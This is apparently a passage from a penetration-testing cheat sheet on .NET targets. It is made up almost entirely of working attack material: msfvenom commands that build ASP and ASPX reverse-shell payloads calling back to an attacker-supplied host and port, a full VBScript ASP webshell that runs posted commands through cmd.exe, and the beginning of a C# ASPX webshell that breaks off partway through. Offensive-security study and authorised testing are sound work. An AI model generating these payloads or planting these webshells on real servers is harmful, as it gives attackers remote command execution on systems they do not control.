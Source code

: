 #### .NET
##### Reverse Shell
From msfvenom:
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o rv.asp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o rv.asp

msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o rv.aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o rv.aspx
```

##### Webshell
```asp
<%@ Language=VBScript %>
<%
  Dim oScript
  Dim oScriptNet
  Dim oFileSys, oFile
  Dim szCMD, szTempFile
  On Error Resume Next
  Set oScript = Server.CreateObject("WSCRIPT.SHELL")
  Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
  Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
  szCMD = Request.Form(".CMD")
  If (szCMD <> "") Then
    szTempFile = "C:\" & oFileSys.GetTempName()
    Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
    Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)
  End If
%>
<HTML>
<BODY>
<FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
  <input type=text name=".CMD" size=45 value="<%= szCMD %>">
  <input type=submit value="Run">
</FORM>
<PRE>
  <%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
  <br>
  <%
    If (IsObject(oFile)) Then
      On Error Resume Next
      Response.Write Server.HTMLEncode(oFile.ReadAll)
      oFile.Close
      Call oFileSys.DeleteFile(szTempFile, True)
    End If
  %>
</BODY>
</HTML>
```

```aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
  void Page_Load(object sender, EventArgs e) { }
  string ExcuteCmd(string arg) {
    ProcessStartInfo psi = new ProcessStartInfo();
    psi.FileName = "cmd.exe";
    psi.Arguments = "/c " + arg;
    psi.RedirectStandardOutput = true;
    psi.UseShellExecute = false;
    Process p = Process.Start(psi);
```